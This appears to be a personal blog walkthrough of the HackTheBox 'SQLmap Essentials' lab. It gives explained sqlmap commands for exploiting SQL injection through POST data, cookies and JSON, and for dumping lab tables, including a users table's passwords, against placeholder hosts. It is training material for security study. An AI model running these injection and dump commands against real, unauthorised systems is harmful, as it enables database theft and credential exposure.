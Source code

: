 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


1. `What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

    sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2
    


From the command:


`--data - speecifies that the HTTP data provided should be sent in a POST request.`

`id=*1 - This is the parameter of interest. The asterisk is a custom injection marker.`
  
`--batch - allows the running of the command without any user input.`

`--dump - displays data from a specified database table`

`-T - specifies database table.`



2. `What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

    sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3


From the command:

  `--cookie - specifies the HTTP cookies that should be sent with the POST requests.`



3. `What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


    sqlmap -r req.txt  --batch --dump  -T flag4 

While it is applicable in this lab, we may also use the following command.

    sqlmap -u 'http://SERVERIP:PORT/case4.php'  --data={'"id":1'} --batch --dump  -T flag4

    

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

1. `What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL


From the command:

  `--no-cast - This flag ensures that you get the correct content.` 
  
  `--risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).`
  
  `--level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).`
  
  `--dbs - The database in question.`
  
  `--dbms - The underlying Database schema being used.`



2. `What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

    sqlmap -u 'http://SERVERIP:PORT/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'

From the command:

  `--prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process`

  

3. `What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

    sqlmap -u 'http://SERVERIP:PORT/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5

From the Command:

  `--union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command`

  

# Database Enumeration

Database enumaration requires the knowledge of how to use flags in your command. The `man sqlmap` and `sqlmap --help` can be of help with this.

Questions

1. `What's the contents of table flag1 in the testdb database? (Case #1)`

This challenge requires to know the names of the Database containing the table in question and the Database schema type being used

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
    


# Advanced Database Enumeration

Question

1. `What's the name of the column containing "style" in it's name? (Case #1)`

After looking into the sqlmap manual page we should now know what flag to use in order to get contents of the 'style' column

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --batch --search -C "style"

From the command: 

  `search -C - Used to search for databases, tables, and columns of interest. The -C flag represents columns.`

  

2. `What's the Kimberly user's password? (Case #1)`

        sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --dump --batch --columns -C name,password -T users

 From the command:

  `column - Lists the columns specified`

  

# Bypassing Web Application Protections







